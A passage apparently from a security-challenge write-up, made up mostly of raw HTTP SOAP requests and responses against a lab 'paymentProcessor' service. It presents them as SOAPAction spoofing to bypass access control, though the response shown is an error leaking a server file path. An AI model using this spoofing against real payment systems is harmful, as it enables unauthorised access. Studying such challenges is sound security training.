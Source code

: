 ```
POST /paymentProcessor HTTP/1.1
Accept-Encoding: gzip, deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: "processPayment"
Content-Length: 281
Host: localhost:1212
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: close
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
xmlns:cyb="http://cybersecchallenge/">
  <soapenv:Header/>
  <soapenv:Body>
     <cyb:processPayment>
        <arg0>test</arg0>
     </cyb:processPayment>
  </soapenv:Body>
</soapenv:Envelope>


HTTP/1.1 200 OK
Content-type: text/xml; charset=utf-8
Date: Tue, 05 Feb 2019 09:41:55 GMT
Content-Length: 247
<?xml version="1.0" ?><S:Envelope
xmlns:S="http://schemas.xmlsoap.org/soap/envelope/"><S:Body><ns2:processPaymentResponse
xmlns:ns2="http://cybersecchallenge/"><return>Authorization
Error</return></ns2:processPaymentResponse></S:Body></S:Envelope>
```


Here, the attacker can use SOAPaction spoofing to bypass the access control and gain access to the “processPayment” functionality.


```
POST /paymentProcessor HTTP/1.1
Accept-Encoding: gzip, deflate
Content-Type: text/xml;charset=UTF-8
Content-Length: 278
Host: localhost:1212
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: close
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
xmlns:cyb="http://cybersecchallenge/">
  <soapenv:Header/>
  <soapenv:Body>
     <cyb:processPayment>
        <arg0>?</arg0>
     </cyb:processPayment>
  </soapenv:Body>
</soapenv:Envelope>


HTTP/1.1 200 OK
Content-type: text/xml; charset=utf-8
Date: Tue, 05 Feb 2019 09:43:10 GMT
Content-Length: 367
<?xml version="1.0" ?><S:Envelope
xmlns:S="http://schemas.xmlsoap.org/soap/envelope/"><S:Body><ns2:processPaymentResponse
xmlns:ns2="http://cybersecchallenge/"><return>/home/ec2-user/PaymentProcessor.java:
Error parsing ?
Ensure configuration file config.txt is properly deployed on the application
server.</return></ns2:processPaymentResponse></S:Body></S:Envelope>
```
